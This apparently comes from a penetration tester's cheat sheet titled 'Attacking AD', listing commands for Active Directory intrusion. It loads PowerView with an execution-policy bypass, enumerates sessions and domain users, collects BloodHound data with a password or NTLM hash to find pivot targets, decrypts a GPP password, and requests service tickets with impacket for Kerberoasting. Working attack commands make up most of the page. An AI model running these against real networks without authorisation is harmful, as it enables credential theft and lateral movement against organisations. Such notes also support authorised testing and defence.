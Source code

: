 # Attacking AD

## PowerView

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
powershell.exe -nop -exec bypass
Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName "name"
Get-NetSession -ComputerName "DC"
```

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)&#x20;

## User Enum

```
net user
net user /domain # enum all users in entire domain
net group /domain
```

## Bloodhound

{% embed url="https://github.com/fox-it/BloodHound.py" %}

You can use the python script in replacement of executing sharphound. Run `neo4j console` and `bloodhound`. Drag and drop the `.json` files to bloodhound, then mark a user/users you've compromised and use the `Analysis` tab to see where your next pivoting target is

### w/ hash

```python
python3 bloodhound.py -ns nameserver/dc ip 10.11.1.20 -d domain.local -u Administrator --hashes ntlm -c All
```

### w/ password

```python
python3 bloodhound.py -ns nameserver/dc ip -d domain.local -u user -p password -c All
```

## Decrypting GPP Password

```
gpp-decrypt asdlkfjOLKAjlksdf/DLkjslkjf;lkj234lkasd0+
```

## Impacket Stuff

```
impacket-GetUserSPNs test.local/john:password123 -dc-ip 10.10.10.1 -request
```
